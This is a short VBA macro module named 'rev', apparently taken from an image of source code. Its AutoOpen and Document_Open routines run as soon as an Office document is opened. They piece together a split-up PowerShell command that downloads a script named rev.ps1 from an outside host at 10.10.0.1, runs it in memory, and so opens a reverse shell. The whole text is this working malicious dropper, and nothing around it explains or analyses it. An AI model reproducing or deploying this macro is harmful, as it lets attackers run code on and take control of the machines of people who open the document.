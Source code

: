 Attribute VB_Name = "rev"
Sub AutoOpen()
    test

End Sub

Sub Document_Open()
    test

End Sub

Sub test()
    Dim Str As String
    Str = "powershell.exe ""IEX (New-Obj "
    Str = Str + "ect Net.WebClient).Download"
    Str = Str + "String('http://10.10.0"
    Str = Str + ".1/rev.ps1')"""
    CreateObject("Wscript.Shell").Run Str
End Sub
